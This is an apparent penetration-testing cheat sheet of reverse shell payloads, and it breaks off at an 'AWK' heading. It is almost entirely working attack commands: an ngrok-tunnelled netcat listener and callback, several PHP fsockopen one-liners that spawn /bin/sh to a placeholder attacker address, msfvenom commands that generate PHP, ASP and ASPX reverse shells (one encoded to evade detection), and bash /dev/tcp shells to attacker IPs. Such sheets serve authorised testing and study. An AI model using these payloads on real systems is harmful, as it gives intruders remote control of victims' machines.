 ### On attacker (term1)

ngrok tcp 12345

### On attacker (term2)

nc -lvp 12345

### On target, use your reverse shell payload on the ngrok tunnel target

```
nc 0.tcp.ngrok.io <port> -e /bin/sh
```

## PHP Reverse Shell

```
php -r '$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$s=fsockopen("<IP>",<PORT>);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$s=fsockopen("<IP>",<PORT>);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$s=fsockopen("<IP>",<PORT>);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$s=fsockopen("<IP>",<PORT>);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$s=fsockopen("<IP>",<PORT>);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

```
msfvenom -p php/shell/reverse_tcp LHOST=IP LPORT=443 -f raw -o shell.php
```

#You can also use the php reverse shell with a complete handler by pentest-monkey, available in Kali by default

### Windows

```
msfvenom -p windows/shell_reverse_tcp -b “\x00\x0a\x0d” LHOST=IP LPORT=443 -f asp > user_TCP_RS.asp
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=IP LPORT=443 -e x86/shikata_ga_nai -o shell.aspx
```

## Netcat equivalent for Powershell !

- https://github.com/besimorhino/powercat

## Linux

```
bash -i >& /dev/tcp/ATTACKING-IP/443 0>&1
bash -i >& /dev/tcp/10.10.14.10/443 0>&1
```

## AWK
